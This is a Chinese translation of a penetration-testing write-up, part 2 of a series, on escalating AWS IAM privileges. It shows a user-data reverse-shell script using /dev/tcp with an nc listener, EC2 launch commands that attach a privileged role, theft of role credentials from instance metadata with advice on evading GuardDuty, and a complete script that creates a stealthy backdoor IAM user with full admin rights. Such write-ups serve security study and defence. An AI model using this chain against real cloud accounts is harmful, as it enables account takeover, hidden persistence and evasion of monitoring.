# 利用 AWS IAM 权限实现全面的云妥协:一个真实世界的例子(2/2)

> 原文：<https://infosecwriteups.com/exploiting-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-2-2-f27e4b57454e?source=collection_archive---------0----------------------->

# 介绍

在[第 1 部分](https://medium.com/bugbountywriteup/exploiting-fine-grained-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-5a2f3de4be08)中，我们攻破了一个拥有多个权限的账户，但没有管理员权限。按照 [Rhinosecuritylab 的帖子](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation)中的方法之一，我们发现了一个允许我们提升权限的潜在角色。简而言之，我们将尝试创建一个实例，并在创建时为其附加一个特权角色。之后，如果我们可以访问实例，我们将能够查询元数据并提取允许我们使用该角色的凭证。如果你不确定这意味着什么，你可以在我之前的文章中找到更好的解释。

出于显而易见的原因，我们之前确定的潜在权限提升使用了我们称为危险角色的角色。



危险-角色已确定！

# 滥用用户数据

现在我们有了候选人，我们需要创建一个实例并为其分配角色。我们首先需要确定的一件事是，一旦创建了这个实例，我们将如何访问它？我们可以试着用现有的钥匙。让我们列出用户可用的键



我们没有权限。即使我们做到了，也没有办法通过命令行界面获得私钥。这些仅在创建过程中打印。我们只能检索公钥，所以我们需要找到另一种方法。

AWS 有一个叫做[的用户数据](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html)。它基本上是脚本，无论何时启动，您都可以使用它来配置实例。我们可以用它从实例中获得一个连接。让我们试试这个。首先，我们需要创建将被调用的用户数据脚本。

```
cat > reverseShell.sh <<EOF
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.0.0.1/8081 0>&1
EOF
```

这将启动一个反向 shell，它将连接到 10.0.0.1:8081。

让我们用

```
nc -lkvp 8081
```



侦听器在我们最初受损的实例上准备就绪

# 创建实例

让我们尝试用 run-instances 创建实例(image-id 对应于一个 ubuntu 14.04 映像):

```
aws --profile data2 ec2 run-instances --image-id ami-d05e75b8 --instance-type t1.micro --iam-instance-profile Name=danger-role --user-data file://reverseShell.sh
```



图像已创建！这是个好消息。然而，连接没有到达。可能是网络问题？仔细检查命令后，我们意识到我们没有指定任何安全组。我们只是得到一个默认的分配。让我们看看它有哪些规则；我们可以这样做

```
aws --profile PROFILE ec2 describe-security-groups | jq -r '.SecurityGroups[] | select(.GroupId | contains("sg-f73b339e"))'
```



向下滚动，我们看到了问题。


不允许出站流量。所以和我们的攻击机器没有联系。我们需要找到一个安全组来允许我们重新连接。

让我们把它们列出来，看看我们是否能找到些什么。

```
aws --profile data2 ec2 describe-security-groups | jq -r .SecurityGroups[].GroupName
```



我们可以从输出中看到有 175 个安全组，并且它们没有遵循一个有组织的命名法。出于安全原因，我不能上传描述，但让我告诉你，他们是一团糟。我们可以开始一个一个地列举它们，但是也许我们可以想出一个更好的方法。

如果我们使用与我们已经控制的实例相同的参数会怎么样？通常，群集在一起的实例允许相互通信。如果我们使用同一个安全组会怎么样？我们可以使用以下命令通过实例的私有 IP 查询实例信息:

```
aws --profile test2 ec2 describe-instances | jq -r '.Reservations[].Instances[] | select(.PrivateIpAddress | contains("10.0.0.17")) | .SecurityGroups
```



(两个安全组匹配)

让我们试试这个安全组:

```
aws --profile data2 ec2 run-instances --image-id ami-d05e75b8 --instance-type t1.micro --iam-instance-profile Name=danger-role --user-data file://reverseShell.sh --security-group-ids "sg-42esa23f"
```



没错。我们正在尝试启动一个实例，但不将其放在特定的子网上(非 VPC 启动)。为了使用 VPC 安全组，我们需要指定与我们控制的实例相同的子网 id。让我们再次查询它

```
aws --profile test2 ec2 describe-instances | jq -r '.Reservations[].Instances[] | select(.PrivateIpAddress | contains("10.12.1.17")) | .SubnetId, .SecurityGroups'
```



现在，我们可以对适当的子网使用该命令。

```
aws --profile data2 ec2 run-instances --image-id ami-d05e75b8 --instance-type t1.micro --iam-instance-profile Name=danger-role --user-data file://reverseShell.sh --security-group-ids "sg-42csce3f" --subnet-id "subnet-a213as8c"
```



成功！几秒钟后，我们得到了反向外壳。



# 劫持角色

一旦进入实例，我们就可以从[实例元数据](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)中快速获得与危险角色相关联的凭证。



现在，如果我们想使用这些凭证，我们有两个选择。我们可以在实例外部或实例内部使用它们。

如果你读过[rhinosecuritylab 的帖子](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)，你就会知道在实例之外使用它们是个坏主意:

> 关于这种攻击，需要注意的一点是，在特定实例之外使用 EC2 实例配置文件凭证是一个明显的危害迹象。即使是 AWS GuardDuty 也会在此触发(https://docs . AWS . Amazon . com/guard duty/latest/ug/guard duty _ finding-types . html # unauthorized 11)，因此在本地过滤这些凭证并运行它们并不是明智之举，而是从 EC2 实例内部访问 AWS API。

我们需要安装 awscli，并确保我们有最新的版本(我们实际上因为在 repos 中使用过时的版本而浪费了很多时间)。

首先，我们使用[菲尼亚斯菲舍尔魔法](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)提升到一个全肉的 pty 外壳:



通过 repos 安装 awscli 后，我们尝试运行*AWS STS get-caller-identity*几次都没有成功，直到我们有了检查安装版本的好主意:



当前版本是 1.18…确保更新所有内容，这样你就不会像我一样浪费 15 分钟。

在更新 aws 客户端之后，我们按照这个[文档](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_temp_use-resources.html)在环境变量中加载凭证。



如您所见，我们成功劫持了角色访问。现在让我们创建一个具有 web 访问权限的后门用户！

```
userName="notabackdoor"
password='ThisisnotabackdoorFORSURE12345!!'
policyName="userPolicy"
#Create a user
aws iam create-user --user-name "$userName"
#Create a login profile to allow web access
aws iam create-login-profile --user-name "$userName" --password "$password" 
#Create cli access
aws iam create-access-key --user-name "$userName"
#Create inline policy to allow full access (it's less obvious than attaching to the Administrators group)

cat > "$policyName".json << EOF
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
EOF

aws iam put-user-policy --user-name "$userName" --policy-name "$policyName" --policy-document file://"$policyName".json
```



创建用户，并授予其控制台和 web 访问权限



将内联策略与用户相关联，以授予用户 root 访问权限。

太好了，我们有根用户了。我们还需要做最后一件事。还记得在第 1 部分中，我们想要同步桶的内容，而我们的脚本永远不会完成吗？嗯，你可以在 web 界面上比通过 cli 更快地获得铲斗的信息。让我们使用新创建的 root 来检查这些存储桶，看看问题出在哪里。


时段详细信息

是的，那是一个 11tb 的桶…还好我们没有等待同步，因为那可能会花很长时间。这解释了为什么我们的脚本(以及我们发现的其他 4 个枚举工具)在同步/获取桶大小时会冻结。

# 包扎

我希望在阅读完第 1 部分和第 2 部分之后，您会对阅读 API/方法文档有一个新的认识。当然，这可能很乏味，但更多的时候，它可以给你工具，以多种不同的方式实现某些目标。第 2 部分到此结束，希望你喜欢！